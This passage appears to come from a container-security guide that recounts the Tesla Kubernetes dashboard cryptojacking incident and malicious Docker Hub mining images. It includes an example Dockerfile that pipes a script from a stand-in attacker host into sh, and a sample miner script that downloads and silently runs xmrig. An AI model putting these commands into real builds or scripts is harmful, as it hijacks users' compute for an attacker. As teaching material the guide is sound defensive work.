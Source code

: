 **Discovery:**
- Security researcher (RedLock) found it during routine scan
- Notified Tesla immediately
- Dashboard was public for months before exploitation

**Aftermath:**
- Tesla patched within hours
- No customer data stolen (only compute resources)
- Increased Kubernetes security awareness industry-wide

**Lessons Learned:**
```
❌ Never expose Kubernetes dashboard publicly
❌ Never use default configs (always enable auth)
❌ Monitor unusual CPU spikes
❌ Set resource limits on all pods
```

---

### 2️⃣ Docker Hub Cryptomining Images (2019-2020)

**What Happened:**
- Attackers uploaded malicious images to Docker Hub
- Images disguised as popular tools (mysql, nginx, node)
- Over 30 compromised images found
- Combined downloads: 10 million+

**Attack Pattern:**
```dockerfile
# Malicious Dockerfile (looks innocent)
FROM node:18-alpine

# Normal app setup
WORKDIR /app
COPY package*.json ./
RUN npm install

# Hidden at the bottom (often minified/obfuscated)
RUN curl -s https://attacker.com/miner.sh | sh

# Your actual app
COPY . .
CMD ["npm", "start"]
```

**What `miner.sh` Did:**
```bash
#!/bin/bash
# Download cryptominer binary
curl -s -o /tmp/xmrig https://attacker.com/xmrig

# Make executable
chmod +x /tmp/xmrig

# Run in background (hidden process name)
/tmp/xmrig \
  --url=pool.supportxmr.com:3333 \
  --user=AttackerWalletAddress \
  --pass=x \
  --donate-level=1 \
  --cpu-priority=1 \
  --threads=3 \
  --background \
  --log-file=/dev/null \
  2>/dev/null &
```